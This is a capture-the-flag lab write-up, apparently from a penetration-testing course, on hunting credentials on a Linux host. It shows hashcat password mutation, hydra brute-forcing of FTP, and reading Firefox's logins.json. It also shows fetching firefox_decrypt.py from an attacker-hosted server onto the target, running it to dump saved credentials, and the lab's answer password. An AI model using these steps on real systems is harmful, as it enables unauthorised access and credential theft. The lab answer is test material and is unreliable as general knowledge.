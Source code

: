 # Credential Hunting in Linux

### Examine the target and find out the password of the user Will. Then, submit the password as the answer.

```
nmap -sV 10.129.202.64  
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 3.0.3
22/tcp  open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
139/tcp open  netbios-ssn Samba smbd 4.6.2
445/tcp open  netbios-ssn Samba smbd 4.6.2
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

```

Sometimes, we will not have any initial credentials available, and as the last step, we will need to bruteforce the credentials to available services to get access. From other hosts on the network, our colleagues were able to identify the user "Kira", who in most cases had SSH access to other systems with the password "LoveYou1". We have already provided a prepared list of passwords in the "Resources" section for simplicity's purpose.

based on the hint above, lets mutate kira password and try to login

```bash
#mutate the passsword
echo 'LoveYou1' > source.txt
hashcat --force source.txt -r custom.rule --stdout | sort -u > kira.list
hydra -l kira -P kira.list 10.129.202.64 ftp -t 64
[21][ftp] host: 10.129.202.64   login: kira   password: L0vey0u1!
```

we got creds, now lets ssh into it

```bash
#creds kira:L0vey0u1!
ssh kira@10.129.202.64
history
#bit about mozzilla interesting, lets enumerate further
ls -l .mozilla/firefox/ | grep default 
cat .mozilla/firefox/ytb95ytb.default-release/logins.json | jq .
```

The tool [Firefox Decrypt](https://github.com/unode/firefox\_decrypt) is excellent for decrypting these credentials, and is updated regularly. It requires Python 3.9 to run the latest version. FIrst lets transfer it

```bash
#Our vm
python3 -m http.server 8081
#target
wget http://10.10.14.179:8081/firefox_decrypt.py .
chmod +x firefox_decrypt.py
python3.9 firefox_decrypt.py 
Select the Mozilla profile you wish to decrypt
1 -> lktd9y8y.default
2 -> ytb95ytb.default-release
2

Website:   https://dev.inlanefreight.com
Username: 'will@inlanefreight.htb'
Password: 'TUqr7QfLTLhruhVbCP'
```

